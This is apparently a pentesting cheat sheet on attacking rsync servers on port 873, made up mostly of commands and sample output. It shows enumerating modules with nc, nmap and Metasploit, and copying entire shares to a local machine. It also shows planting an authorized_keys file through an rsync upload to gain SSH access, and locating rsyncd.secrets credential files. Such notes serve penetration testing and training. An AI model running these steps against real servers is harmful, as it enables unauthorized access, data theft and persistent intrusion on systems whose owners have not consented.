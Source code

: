 # Pentesting Rsync

## Rsync port 873

* Basic information
* rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

* Enumerate shared folders
* An rsync module is essentially a directory share. These modules can optionally be protected by a password.
* This options lists the available modules and, optionally, determines if the module requires a password to access:

```
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

* Manual Rsync
* List a shared folder

```
rsync -av --list-only rsync:/10.10.232.5/shared_name
```

* Copy all files to your local machine via the following command:

```
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

* If you have credentials you can list/download a shared name using (the password will be prompted):

```
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
proxychains rsync -av --list-only rsync://svc_ipmi@172.16.210.34/svc_rsync
```

* You could also upload some content using rsync (for example, in this case we can upload an authorized\_keys file to obtain access to the box):

```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
#full command syntax below
rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys
```

* Find the rsyncd configuration file:

```
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

* Inside the config file sometimes you could find the parameter `secrets file = /path/to/file` and this file could contains usernames and passwords allowed to authenticate to rsyncd.
